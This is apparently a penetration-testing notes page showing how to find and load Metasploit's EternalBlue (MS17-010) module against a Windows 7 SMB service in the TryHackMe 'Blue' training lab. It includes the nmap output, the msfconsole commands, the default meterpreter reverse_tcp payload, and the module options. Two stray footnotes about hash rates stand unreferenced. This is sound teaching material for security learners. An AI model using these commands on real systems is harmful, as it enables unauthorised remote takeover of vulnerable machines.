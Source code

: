 ```yaml
---
description: >-
  Using existing exploits from the Metasploit Framework (MSF) to quickly take
  over machines and escalate privileges
---
```


# Metasploit

## Example

To get an idea of a regular workflow of finding and using a Metasploit exploit I will showcase the _Blue_ room from TryHackMe:

{% embed url="https://tryhackme.com/room/blue" %}
Beginner room walking through using Metasploit to abuse the Eternal Blue exploit
{% endembed %}

When having completed an `nmap` scan, we find a detailed version number:

{% code overflow="wrap" %}
```
445/tcp   open  microsoft-ds       syn-ack ttl 126 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
```
{% endcode %}

Just searching for ["Windows 7 Professional 7601 Service Pack 1 **exploit**"](https://www.google.com/search?q=windows+7+professional+7601+service+pack+1+exploit) quickly finds us the MS17-010 "Eternal Blue" exploit at [rapid7.com](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17\_010\_eternalblue/). Here we find the module called `exploit/windows/smb/ms17_010_eternalblue` that will run this exploit on a target. We'll start up `msfconsole` and see how we use the module:

<pre class="language-shell"><code class="lang-shell"><strong>msf6 > use exploit/windows/smb/ms17_010_eternalblue
</strong>[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
<strong>msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
</strong>
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/doc
                                             s/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication
                                             . Only affects Windows Server 2008 R2, Windows 7, Windo
                                             ws Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. On
                                             ly affects Windows Server 2008 R2, Windows 7, Windows E
                                             mbedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects
                                              Windows Server 2008 R2, Windows 7, Windows Embedded St
                                             andard 7 target machines.


[^1]: 1.2 billion hashes per second
[^2]: 9 billion hashes per second